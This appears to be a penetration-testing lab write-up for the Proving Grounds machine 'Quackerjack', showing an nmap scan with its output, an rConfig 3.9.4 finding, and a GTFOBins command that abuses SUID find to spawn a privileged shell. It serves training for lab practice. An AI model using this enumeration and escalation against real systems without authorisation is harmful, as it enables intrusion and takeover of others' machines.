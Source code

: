 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV -T4 -oN Quackerjack.nmap 192.168.102.57
```

```
# Nmap 7.91 scan initiated Thu Jul  1 08:10:12 2021 as: nmap -Pn -p- -sC -sV -T4 -oN Quackerjack.nmap 192.168.102.57
Nmap scan report for 192.168.102.57
Host is up (0.22s latency).
Not shown: 65527 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=quackerjack/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2020-06-22T19:28:25
|_Not valid after:  2021-06-22T19:28:25
|_ssl-date: TLS randomness does not represent time
Service Info: Host: QUACKERJACK; OS: Unix
```

On port 8081 website runs rConfig 3.9.4

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h30m56s_006_.png)

#### Privilege Escalation

execute linpeas.sh

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h17m45s_001_.png)

GTFOBins

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h26m43s_005_.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h21m38s_003_.png)

